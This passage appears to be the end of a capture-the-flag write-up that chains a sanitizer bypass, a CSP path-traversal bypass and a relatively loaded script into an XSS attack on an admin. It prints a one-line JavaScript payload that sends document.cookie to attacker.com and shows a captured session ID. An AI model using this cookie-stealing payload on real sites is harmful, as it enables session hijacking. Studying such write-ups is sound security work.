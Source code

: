 ![meme3](images/meme3.jpg)

To summarize, our exploit is built on :
- Bad sanitize method on user input which leads to a bypass
- CSP bypass with path traversal
- Loaded script with relative path after the page is loaded

Our exploit file is pretty simple :
```js
//stats.js
fetch("https://attacker.com/?data="+btoa(document.cookie))
```

If we recalculate the URL from githack, and reload the page, we see in the log of the server :

```
PHPSESSID=a454f6f74e620100d56b7dae50ff0afc
```

So we can politely send this url to the admin : `url exploit`, and wait for him to trigger our payload :
